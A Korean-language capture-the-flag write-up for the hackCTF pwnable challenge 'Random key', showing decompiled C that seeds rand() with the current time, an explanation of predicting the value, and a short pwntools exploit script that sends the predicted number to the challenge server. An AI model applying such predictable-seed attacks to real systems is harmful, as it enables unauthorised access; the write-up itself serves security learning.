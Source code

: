 ```yaml
---
layout: post
title:  "[hackCTF]Random key"
date:   2020-02-18
---
```


hackCTF pwnable 15번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // [rsp+0h] [rbp-10h]
  int v5; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  v4 = 0;
  v3 = time(0LL); // 1970.01.01부터 현재까지 흐르는 초를 v3에 저장한다
  srand(v3); // v3를 기반으로 난수를 초기화한다.
  v5 = rand(); // srand를 바탕으로 난수를 생성한다.
  puts("============================");
  puts(asc_400948);
  puts("============================");
  printf("Input Key : ", 0LL, *(_QWORD *)&v4, v6);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
  {
    puts("Correct!");
    system("cat /home/random/flag"); // flag 출력
    exit(0);
  }
  puts("Nah...");
  exit(0);
}
```
랜덤으로 만들어진 v5와 입력한 값이 같다면 flag를 출력한다. time(0)을 기준으로 v5가 만들어지므로 똑같은 seed로 random 값을 만든다면 v5와 만든 값이 같을 것이다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *
from ctypes import *

p = remote('ctf.j0n9hyun.xyz', 3014)

clib = cdll.LoadLibrary('libc.so.6')
mylib = cdll.LoadLibrary('%s/mylib.so' % os.getcwd())

random = mylib.main()

p.sendline(str(random))

p.interactive()
```

## 결과
![1501](https://drive.google.com/uc?id=1c29YhzXiygH5fvEJk--Dkb5xEoBiBW7d)

## 참고
<a href="http://egloos.zum.com/mcchae/v/11024689">python에서 c 코드 실행하기</a>  
<a href="https://edu.goorm.io/learn/lecture/201/%EB%B0%94%EB%A1%9C-%EC%8B%A4%ED%96%89%ED%95%B4%EB%B3%B4%EB%A9%B4%EC%84%9C-%EB%B0%B0%EC%9A%B0%EB%8A%94-c%EC%96%B8%EC%96%B4/lesson/12382/%EB%82%9C%EC%88%98-%EB%9E%9C%EB%8D%A4-%EB%A7%8C%EB%93%A4%EA%B8%B0">rand 함수</a>
